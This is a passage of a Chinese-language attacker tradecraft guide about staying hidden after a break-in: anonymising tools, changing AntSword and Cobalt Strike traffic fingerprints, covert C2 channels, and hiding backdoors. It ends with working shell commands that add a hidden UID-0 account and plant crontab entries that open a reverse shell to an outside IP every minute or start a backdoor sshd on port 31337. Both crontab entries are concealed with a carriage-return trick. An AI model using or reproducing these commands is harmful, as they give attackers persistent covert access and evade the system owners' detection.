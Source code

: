 
### 2.2 工具匿名化

 传到目标设别上的工具，要注意是否含有硬编码的身份相关的信息，如：

1.内部工具是否有作者信息

2.程序内是否含有调试文件的目录路径，该路径是否含有身份信息。



## 3  流量隐藏

### 3.1 工具流量指纹

尽可能的对工具做定制化的修改，模糊掉工具内原本的指纹。

（webshell连接工具）蚁剑：

（漏洞利用协作平台）cs:

### 3.2 隐蔽通信

过去，使用DNS、ICMP协议作为C2载体协议被认为是一种不错的隐蔽通信方案。随着现在越来越多的流量检测设备面世，这种方式不再像过去一样有效了，这时因为DNS和ICMP协议的协议包大小及内部结构常常是有固定的模式可循的，因此稍有变动，从原理上来说就非常容易被发现。基于HTTP(s)的隐蔽通信由于其天生的结构特点与应用场景，在实战环境中更加隐蔽。有时甚至在想会不会以后出现用TCP SYN发莫斯码实现数据传输。隐蔽通信的方法不断的在演进。

## 4 手法隐蔽

尽可能的降低在入口突破后产生的攻击噪音，有不少地方是值得关注的：

### 4.1 后门的隐藏

#### 4.1.1 后门公钥

添加公钥到.authorized_keys,这种方式已经用烂了，不新鲜了。还是蛮容易被发现的。

#### 4.1.2 后门账户

**windows 影子账户**

**linux账户**

```shell
useradd -u 0 -o -g root -G root -M -s /bin/bash admin
useradd -d /root -c "config" -s /bin/bash config
useradd -d /home/... -s /bin/bash x -m
```

#### 4.1.3 定时任务后门

```shell
(crontab -l;printf "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/5555 0>&1;\rno crontab for `whoami`%100c\n")|crontab -

(crontab -l;printf "*/1 * * * * ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337' ;\rno crontab for `whoami`%100c\n")|crontab -

```
